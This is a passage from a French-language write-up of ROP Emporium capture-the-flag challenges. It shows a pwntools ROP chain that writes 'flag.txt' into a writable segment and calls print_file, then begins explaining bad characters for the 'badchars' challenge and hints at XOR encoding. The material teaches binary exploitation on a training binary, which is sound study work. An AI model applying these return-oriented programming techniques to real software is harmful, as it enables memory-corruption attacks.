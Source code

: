 ```py

pop_rdi = p64((rop.find_gadget(["pop rdi", "ret"]))[0])
print_file = p64(elf.symbols['print_file'])

pld = padding
pld += pop_r14_pop_r15 # to setup data addr & flag.txt in registers
pld += data_segment
pld += flag_string
pld += mov_ptr_r14_r15 # mov qword ptr [r14], r15 ; ret ==> to move flag.txt in data segment
pld += pop_rdi # to put the memory location of flag.txt in print_file() as argument
pld += data_segment
pld += print_file

p.sendline(pld)
p.interactive()
```

# badchars

- La description nous indique que le challenge est similaire au challenge write4. Cependant, le binaire nous impose quelques restrictions telles que la présence de bad chars.

## Qu'est ce qu'un bad char ?

Les bad chars sont une **liste de caractère** non désirés qui peuvent potentiellement **casser l'interprétation** d'un **shellcode**.

Exemples de bad chars:
1. 00 -> NULL
2. 0A -> Line break -> \n
3. 0D -> Carriage return -> \r
4. FF -> Form feed -> \f

Lors de l'exécution de notre programme, le binaire nous indique les bad chars :

```py
❯ ./badchars
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
>
```

Nous pouvons donc en conclure que lors de l'exploitation, nous ne pourrons pas utiliser les caractères ci dessus.

La méthodologie d'exploitation de notre binaire reste tout de meme similaire :
- Trouver l'adresse d'un segment accessible en écriture
- Obtenir les gadgets nécéssaires pour écrire la string flag.txt dans le segment en question
- Utilisez la fonction `print_file()` et un gadget `pop rdi ; ret` afin de print le flag

Cependant, vous avez du le remarquer, flag.txt possède des bad chars !
Si vous avez lu la description du challenge, vous pouvez y voir un indice interéssant : "XOR"
